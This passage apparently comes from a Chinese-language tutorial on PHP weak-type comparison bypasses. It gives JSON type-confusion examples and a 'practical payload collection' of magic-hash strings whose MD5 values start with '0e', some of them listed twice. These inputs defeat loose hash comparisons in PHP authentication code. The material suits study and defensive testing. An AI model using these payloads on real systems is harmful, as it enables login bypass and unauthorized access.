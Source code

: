 #### 1. 数字与字符串混淆

```json
{
    "password": 123456,
    "admin": true
}

// PHP解析后可能被当作字符串"123456"
```

#### 2. 布尔值绕过

```json
{
    "admin": true,
    "level": 1
}

// 在弱类型比较中：true == 1 为 true
```

### JSON数组绕过

```json
{
    "a": [],
    "b": []
}

// 空数组在PHP中可能被转换为相同值
```

---

## 实战Payload合集

### 1. MD5弱类型绕过合集

```text
# 最常用的MD5弱类型Payload
240610708        → 0e462097431906509019562988736854
QNKCDZO          → 0e830400451993494058024219903391  
s878926199a      → 0e545993274517709034328855841020
s155964671a      → 0e342768416822451524974117254469
s214587387a      → 0e848240448830187420162954587645
s1091221200a     → 0e940624217856561557816327384675
s1885207154a     → 0e509367213418206700842008763514
s1502113478a     → 0e861580163291561247404381396064
s1885207154a     → 0e509367213418206700842008763514
s1836677006a     → 0e481036490867661113260034900752
s155964671a      → 0e342768416822451524974117254469
s1184209335a     → 0e072485820392773389523109082030
s1665632922a     → 0e731198061491163073197128363787
s1502113478a     → 0e861580163291561247404381396064
s1836677006a     → 0e481036490867661113260034900752
s1885207154a     → 0e509367213418206700842008763514
```
